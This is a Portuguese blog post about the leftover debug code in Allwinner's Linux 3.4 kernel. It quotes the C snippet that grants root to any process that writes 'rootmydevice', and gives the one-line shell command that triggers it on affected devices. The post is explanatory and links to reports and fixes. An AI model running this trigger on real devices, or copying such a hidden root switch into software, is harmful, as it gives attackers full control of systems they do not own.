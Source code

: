 ```yaml
---
layout: post
title: "Allwinner e seu código de debug"
tags: Debug, segurança, noob, kernel, allwinner, backdoor, teste
---
```


Sabe aqueles códigos que inserimos nos projetos apenas para debug? Aqueles que você coloca temporariamente para ficar mais fácil testar algumas funções, para conseguir fazer algumas coisas de maneira mais rápida e testar. Pois então, o **grande** problema é quando esquecemos de apagar esses códigos e eles vão para produção.

Isso pode acontecer com todo mundo, apesar de ser nada legal. Veja o que o pessoal do desenvolvimento do kernel da [Allwinner](http://www.allwinnertech.com/), fabicante chinesa de processadores, [fez](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41).

<!-- more -->

{% highlight C %}
if(!strncmp("rootmydevice",(char*)buf,12)){
	cred = (struct cred *)__task_cred(current);
	cred->uid = 0;
	cred->gid = 0;
	cred->suid = 0;
	cred->euid = 0;
	cred->euid = 0;
	cred->egid = 0;
	cred->fsuid = 0;
	cred->fsgid = 0;
	printk("now you are root\n");
}
{% endhighlight %}

Isso permite que qualquer usuário em qualquer processo se torne root do dispositivo. <Insira uma cara de espanto aqui>

Os processadores da Allwinner estão presentes em TVs, e-readers, tablets, e nos famosos [Banana Pi](http://www.bananapi.org/p/product.html) e [Orange Pi](http://www.orangepi.org/).

Segundo algumas notícias [1](http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/) e [2](https://forum.armbian.com/index.php/topic/1108-security-alert-for-allwinner-sun8i-h3a83th8/), para acessar esse "backdoor" e se tranformar em <s>super</s> **root** simplesmente digite:

```bash
echo "rootmydevice" > /proc/sunxi_debug/sunxi_debug
```

Tchãran. *"now you are root\n"*

Como não tenho nenhum dispositivo com allwinner não consegui testar =(.

IMHO, não creio que este é um backdoor ou algo que foi colocado propositalmente. Pois não é algo escondido no código. pelo contrário, está muito visível. E só funciona em algumas versões dos processadores
(H3, A83T ou H8) e ainda apenas na versão de kernel 3.4.

Acredito que este problema ocorreu devido a falta de atenção dos desenvolvedores. É uma prática normal inserir estes tipos de códigos durante o desenvolvimento, mas não <s>é normal</s> deixá-los nas versões de liberação, pelo menos não de maneira **tão** explicita.

[Correções](https://github.com/friendlyarm/h3_lichee/commit/5d4d02b1c8f336ba002eed4d97dee3a51ea76cdd) estão surgindo para resolver este problema. Afinal, isso é extremamente necessário! Caso contrário, o dispositivo é altamente vulnerável.
